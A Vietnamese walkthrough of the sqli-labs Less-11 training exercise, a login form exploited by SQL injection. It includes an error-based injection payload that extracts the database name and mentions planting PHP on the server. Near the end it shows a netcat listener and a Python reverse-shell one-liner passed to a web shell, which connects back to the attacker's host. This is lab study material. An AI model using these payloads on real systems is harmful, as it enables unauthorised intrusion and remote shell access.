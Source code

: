 # Less 11

Đề bài yêu cầu đăng nhập

![](../images/sqli-labs/Less-11/01.png)

Thử thực hiện đăng nhập

![](../images/sqli-labs/Less-11/02.png)

Như ở đây ta thấy đăng nhập không đúng sẽ thấy thông báo được ở trên màn hình. Tôi tiếp tục thử nhập linh tinh vào thì thấy có lỗi in ra màn hình

![](../images/sqli-labs/Less-11/03.png)

Tôi nhập khung đăng nhập giá trị

![](../images/sqli-labs/Less-11/03.1.png)

Ta có thể dự đoán câu query có thể là

```
select * from table where user='$user' and passwd='$passwd' limit 0,1
```

Theo phán đoán này tôi nhập vào giá trị ở user để cho điều kiện luôn đúng và bỏ qua phần passwd để xem có thể đăng nhập thành công hay không

![](../images/sqli-labs/Less-11/05.png)

Kết quả tôi đã login thành công mà không cần đến user và password

![](../images/sqli-labs/Less-11/04.png)

Như ở đây ta đã login thành công. Tôi cũng có thể login được thành công với 1 user khác

![](../images/sqli-labs/Less-11/06.png)

Bằng cách sử dụng login như sau

![](../images/sqli-labs/Less-11/07.png)

Ta thấy ở đây có thấy có hiển thị lỗi của SQL lên màn hình. Như vậy ở đây ta có thể tận dụng vào đây để khai thác 

Ví dụ ta show tên DB bằng cách nhập vào khung đăng nhập

```
1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

Ta thấy được lỗi hiển thị ra

![](../images/sqli-labs/Less-11/08.png)

Đây là params mà tôi truyền vào

![](../images/sqli-labs/Less-11/09.png)

Tương tự như vậy ta có thể sử dụng để cho nó hiển thị ra các thông tin khác của DB

![](../images/sqli-labs/Less-11/10.png)

![](../images/sqli-labs/Less-11/11.png)

Tương tự ta có thể để cho nó hiển thị ra các thông tin khác bằng cách làm tương tự như ở các bài trước. Ta cũng có thể thêm đoạn code PHP vào server như các bài trước

Tôi truyền vào params như sau

![](../images/sqli-labs/Less-11/12.png)

Kết quả như sau

![](../images/sqli-labs/Less-11/13.png)

Tôi có thể cho server đó kết nối đến như terminal của tôi như đang thực hiện ssh đến server đó

Tôi chạy dòng lệnh `nc -lvp 5555` trên máy của tôi

Sau đó mở trình duyệt trên máy của tôi và truyền vào url

```
http://192.168.84.233/tests/c2.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.70.161",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Ta thấy kết quả như sau

![](../images/sqli-labs/Less-11/14.png)